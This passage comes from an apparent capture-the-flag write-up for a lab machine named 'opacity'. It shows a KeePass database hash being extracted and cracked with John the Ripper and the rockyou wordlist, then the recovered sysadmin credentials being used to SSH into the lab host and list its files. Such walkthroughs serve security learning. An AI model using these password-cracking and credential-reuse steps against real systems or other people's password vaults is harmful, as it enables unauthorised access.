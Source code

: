 Cracking the password of the `Keepass` file: <br/>
```sh
$ keepass2john dataset.kdbx > keepass_hash.txt
$ john --format=keepass --wordlist=/usr/share/wordlists/rockyou.txt keepass_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (dataset)     
1g 0:00:00:07 DONE (2024-03-29 11:22) 0.1366g/s 119.1p/s 119.1c/s 119.1C/s chichi..walter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Using the linux utility `keepassxc` I opened the `dataset.kdbx` file which revealed the user credentials of `sysadmin`. <br/>
Using the found creds I connected to the machine once again. <br/>
```sh
$ ssh sysadmin@10.10.98.27  
The authenticity of host '10.10.98.27 (10.10.98.27)' can't be established.
ED25519 key fingerprint is SHA256:VdW4fa9h5tyPlpiJ8i9kyr+MCvLbz7p4RgOGPbWM7Nw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.98.27' (ED25519) to the list of known hosts.
sysadmin@10.10.98.27's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-139-generic x86_64)

--------------------------

sysadmin@opacity:~$ cat /home/sysadmin/local.txt 
REDACTED
```

Looking around some more I found an interesting file in the home direcotry of user `sysadmin`. <br/>
```php
sysadmin@opacity:~$ ls -la
total 44
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22  2023 .
drwxr-xr-x 3 root     root     4096 Jul 26  2022 ..
-rw------- 1 sysadmin sysadmin   22 Feb 22  2023 .bash_history
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .cache
drwx------ 3 sysadmin sysadmin 4096 Jul 28  2022 .gnupg
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .ssh
-rw-r--r-- 1 sysadmin sysadmin    0 Jul 28  2022 .sudo_as_admin_successful

sysadmin@opacity:~$ ls -la scripts/
total 16
drwxr-xr-x 3 root     root     4096 Jul  8  2022 .
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22  2023 ..
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php

sysadmin@opacity:~$ ls -la scripts/lib/
total 132
drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
```